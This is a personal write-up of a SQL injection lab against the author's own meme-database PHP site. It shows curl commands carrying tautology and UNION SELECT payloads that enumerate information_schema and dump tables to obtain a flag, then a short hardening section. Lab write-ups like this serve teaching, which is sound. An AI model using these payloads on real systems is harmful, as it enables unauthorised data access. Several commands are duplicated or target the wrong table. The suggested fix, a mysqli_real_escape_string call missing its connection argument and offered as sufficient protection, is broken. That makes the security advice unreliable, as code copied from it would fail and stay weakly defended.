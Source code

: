 This is a writeup for a sql injection exploit for a website I made a while back. I haven't  uploaded the vm with the website, or any of the files for it yet, however I have the writeup here as a reference.

#Dankabase
The Dankabase is a mysql database that is linked to a php interface that is linked to an html input page. The html input page contains some basic security measures in place. It uses Javascript to strip away characters necessary for an sql injection attack. This interface will prove to be a rather difficult end to launch an attack. However this interface does give us two valuable pieces of knowledge. It informs us of the script that it is used to run the search query (“search.php”), and the variable it uses to send data over to the script (“Meme”). With these two pieces of info we can go ahead and construct our own interface to proceed with the attack.This can be done with an application named curl, consider it a terminal based web browser

Replace 127.0.0.1 with the VM's IP address

To start off let's just attempt to do a successful, non-offensive, Tumblr approved, gender neutral query.

```
Curl --data “Meme=Confession Bear” 127.0.0.1/search.php
```

After this you should see output. I forget what the output should be, but it should be a numerical number between 1-10. Now let’s try to attack it. The query is the one listed below.

```
$sql = “Select Dankage From carl WHERE Meme = ‘$Meme’”;
```

This query isn’t safe, and vulnerable to sql attacks. Let’s try one of the most basic attacks. Keep in mind whatever you send as the $Meme will be replace the (“$Meme”)

```
Curl --data “Meme=Leafy’ or ‘1’=’1” 127.0.0.1/search.php
```

This will display the full ever row’s dankage row. With our current query, this is all we are going to get out of this. It is time to do some database recon. We are going to list every table in the db. We can do so by doing adding a select union to our sql injection, which will display every table in the database. 

```
Curl --data “Meme=Confession Bear’ Union Select table_name from information_schema.tables#” 127.0.0.1/search.php
```

This outputs a lot of table names. Search through it however you please (manual or pipe it into a text file). You will find two oddly named tables, carl and knowledge. Carl is a running meme so it makes sense and knowledge is right next to it and neither really fit in. If you want you could always pipe it into a txt then run a diff on a file with a list of just the default table names. Now that we have identified two tables of interest, it’s time we investigated these two tables to see what columns they have. We can do that by again checking some data in INFORMATION_SCHEMA table COLUMNS. To dot that you can run the following SQL attacks.

```
Curl --data “Meme=Confession Bear’ Union Select COLUMN_NAME from information_schema.columns where TABLE_NAME=’carl’#” 127.0.0.1/search.php

Curl --data “Meme=Confession Bear’ Union Select COLUMN_NAME from information_schema.columns where TABLE_NAME=’carl’#” 127.0.0.1/search.php
```

Terminal Equivalent:
```
SELECT COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=’knowledge’;

SELECT COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=’carl’;
```

For the table knowledge we see the columns ‘id’ and ‘info’, ID is probably just the id key so info is probably the only server that stores data valuable to us. For carl we get three columns, ‘id’, ‘meme’, and ‘Dankage’. We are going to view the entire contents of each of those columns using an sql injection attack. To do so we will use the attacks listed below.

```
Curl --data “Meme=Confession Bear’ Union Select meme from carl#” 127.0.0.1/search.php
Curl --data “Meme=Confession Bear’ Union Select meme from Dankage#” 127.0.0.1/search.php
Curl --data “Meme=Confession Bear’ Union Select meme from carl’#” 127.0.0.1/search.php
```

When you run the final attack,.you see something very valuable. You get the flag! The flag is guyinactf(v@cc1n@t3_y0ur3_d@NK@b@53)

#Securing

Securing this is fairly simple. You can do so by escaping the string. This will essentially stip it of the characters necessary for an SQL Injection attack. The code to php file responsible for the query is on the next page. Essentially after your variable that you are going to use in your sql query obtains its value (which is listed below).

```
$Meme = $_POST[“Meme”];
```

You escape it, which essentially you just add the following line.

```
$Meme = mysqli_real_escape_string($Meme);
```

Now try to sql inject it.
<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3<3























